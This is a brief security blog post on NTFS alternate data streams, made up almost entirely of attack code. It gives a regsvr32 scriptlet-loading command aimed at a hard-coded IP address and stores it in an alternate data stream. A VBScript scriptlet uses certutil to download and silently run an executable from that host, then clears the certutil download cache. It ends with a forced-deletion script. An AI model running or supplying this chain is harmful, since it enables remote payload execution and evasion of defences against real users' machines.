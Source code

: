 ```yaml
---
author: XhstormR
categories:
- security
date: 2019-09-30T19:31:07+08:00
title: Alternate Data Stream
---
```


<!--more-->

Updated on 2019-09-30

```bash
regsvr32.exe /s /u /i:http://47.98.135.65/main/main.xml scrobj.dll
```

```bash
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:http://47.98.135.65/main/main.xml ^scrobj.dll > ...:payload.bat

cmd.exe - < ...:payload.bat
```

## main.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<scriptlet>
<registration classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="VBScript">
    <![CDATA[
        CreateObject("WScript.Shell").Run _
            "%ComSpec% /c cd /d %TEMP% && " &_
            "(IF NOT EXIST main.exe certutil.exe -urlcache -split -f http://47.98.135.65/main/main.exe) && " &_
            "(IF NOT EXIST payload.txt certutil.exe -urlcache -split -f http://47.98.135.65/main/payload.txt) && " &_
            "certutil.exe -urlcache * delete & " &_
            "main.exe r", 0, false
    ]]>
</script>
</registration>
</scriptlet>
```

## delete.bat
```bash
del /f /a /q \\?\%1
rd /s /q \\?\%1
```

## Reference
* https://ss64.com/vb/shell.html
* https://attack.mitre.org/techniques/T1117/
* https://docs.microsoft.com/zh-cn/dotnet/visual-basic/programming-guide/program-structure/how-to-break-and-combine-statements-in-code
